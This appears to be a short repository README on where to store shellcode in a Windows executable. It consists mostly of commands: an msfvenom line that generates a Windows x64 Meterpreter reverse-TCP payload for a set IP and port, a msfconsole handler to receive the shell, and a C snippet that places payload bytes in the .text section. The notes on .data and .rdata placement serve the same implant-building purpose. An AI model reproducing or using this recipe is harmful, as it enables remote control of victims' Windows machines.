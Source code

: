 # payloadSection

msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.28.3.47 lport=4444 -f c
```


msfconsole
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.28.3.47
set lport 4444
run
```

.data saved payload
- Variables that are specified without the const

.rdata saved payload
- Variables that are specified using the const (read-only)

.text saved payload
```
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char rawData[] = "\x90\x90\x90\x90";
```
